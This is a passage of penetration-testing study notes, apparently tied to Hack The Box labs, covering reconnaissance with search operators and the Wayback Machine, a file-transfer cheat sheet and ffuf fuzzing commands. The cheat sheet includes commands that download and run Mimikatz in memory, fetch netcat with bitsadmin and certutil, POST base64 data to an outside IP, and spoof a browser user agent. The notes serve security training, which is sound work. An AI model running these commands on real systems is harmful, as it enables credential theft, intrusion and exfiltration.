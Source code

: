 By creatively combining these operators and crafting targeted queries, you can uncover sensitive documents, exposed directories, login pages, and other valuable information that may aid in your reconnaissance efforts.

### Web Archives

Web archives are digital repositories that store snapshots of websites across time, providing a historical record of their evolution. Among these archives, the Wayback Machine is the most comprehensive and accessible resource for web reconnaissance.

The Wayback Machine, a project by the Internet Archive, has been archiving the web for over two decades, capturing billions of web pages from across the globe. This massive historical data collection can be an invaluable resource for security researchers and investigators.

|Feature|Description|Use Case in Reconnaissance|
|---|---|---|
|`Historical Snapshots`|View past versions of websites, including pages, content, and design changes.|Identify past website content or functionality that is no longer available.|
|`Hidden Directories`|Explore directories and files that may have been removed or hidden from the current version of the website.|Discover sensitive information or backups that were inadvertently left accessible in previous versions.|
|`Content Changes`|Track changes in website content, including text, images, and links.|Identify patterns in content updates and assess the evolution of a website's security posture.|

By leveraging the Wayback Machine, you can gain a historical perspective on your target's online presence, potentially revealing vulnerabilities that may have been overlooked in the current version of the website.

##  File Transferr techniques

| **Command**                                                                                                        | **Description**                             |
| ------------------------------------------------------------------------------------------------------------------ | ------------------------------------------- |
| `Invoke-WebRequest https://<snip>/PowerView.ps1 -OutFile PowerView.ps1`                                            | Download a file with PowerShell             |
| `IEX (New-Object Net.WebClient).DownloadString('https://<snip>/Invoke-Mimikatz.ps1')`                              | Execute a file in memory using PowerShell   |
| `Invoke-WebRequest -Uri http://10.10.10.32:443 -Method POST -Body $b64`                                            | Upload a file with PowerShell               |
| `bitsadmin /transfer n http://10.10.10.32/nc.exe C:\Temp\nc.exe`                                                   | Download a file using Bitsadmin             |
| `certutil.exe -verifyctl -split -f http://10.10.10.32/nc.exe`                                                      | Download a file using Certutil              |
| `wget https://raw.githubusercontent.com/rebootuser/LinEnum/master/LinEnum.sh -O /tmp/LinEnum.sh`                   | Download a file using Wget                  |
| `curl -o /tmp/LinEnum.sh https://raw.githubusercontent.com/rebootuser/LinEnum/master/LinEnum.sh`                   | Download a file using cURL                  |
| `php -r '$file = file_get_contents("https://<snip>/LinEnum.sh"); file_put_contents("LinEnum.sh",$file);'`          | Download a file using PHP                   |
| `scp C:\Temp\bloodhound.zip user@10.10.10.150:/tmp/bloodhound.zip`                                                 | Upload a file using SCP                     |
| `scp user@target:/tmp/mimikatz.exe C:\Temp\mimikatz.exe`                                                           | Download a file using SCP                   |
| `Invoke-WebRequest http://nc.exe -UserAgent [Microsoft.PowerShell.Commands.PSUserAgent]::Chrome -OutFile "nc.exe"` | Invoke-WebRequest using a Chrome User Agent |

## Fuzzing with Ffuf

|**Command**|**Description**|
|---|---|
|`ffuf -h`|ffuf help|
|`ffuf -w wordlist.txt:FUZZ -u http://SERVER_IP:PORT/FUZZ`|Directory Fuzzing|
|`ffuf -w wordlist.txt:FUZZ -u http://SERVER_IP:PORT/indexFUZZ`|Extension Fuzzing|
|`ffuf -w wordlist.txt:FUZZ -u http://SERVER_IP:PORT/blog/FUZZ.php`|Page Fuzzing|
|`ffuf -w wordlist.txt:FUZZ -u http://SERVER_IP:PORT/FUZZ -recursion -recursion-depth 1 -e .php -v`|Recursive Fuzzing|
|`ffuf -w wordlist.txt:FUZZ -u https://FUZZ.hackthebox.eu/`|Sub-domain Fuzzing|